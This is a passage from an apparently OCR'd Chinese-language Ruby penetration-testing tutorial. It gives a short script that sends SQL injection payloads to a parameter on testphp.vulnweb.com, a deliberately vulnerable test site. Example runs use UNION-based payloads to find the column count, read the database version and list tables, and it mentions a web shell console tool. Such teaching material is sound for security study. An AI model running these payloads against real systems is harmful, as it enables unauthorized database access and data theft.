 > ¹. [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) 是一个简单的交互式控制台，使用 HTTP GET 与简单的 Web shell 进行交互，而不是使用浏览器。wsc 将使用任何使用 GET 方法的 shell。它还负责所有 URL 编码。↩

+   [CGI 示例](http://www.java2s.com/Code/Ruby/CGI/CatalogCGI.htm)

# SQL 注入扫描器

# SQL 注入扫描器

## 基本的 SQLi 脚本作为命令行浏览器

这是一个非常基本的脚本，获取你提供的负载并将其发送到易受攻击的参数，然后将响应返回给你。我将使用([`testphp.vulnweb.com/`](http://testphp.vulnweb.com/))，因为它是合法的测试。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts "" 
```

> 我已经注释掉了 `puts response.body.gsub(/<.*?>/, '').strip` 这一行，并添加了一个自定义的正则表达式来修复我们的目标输出。

让我们来测试一下它的功能

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
```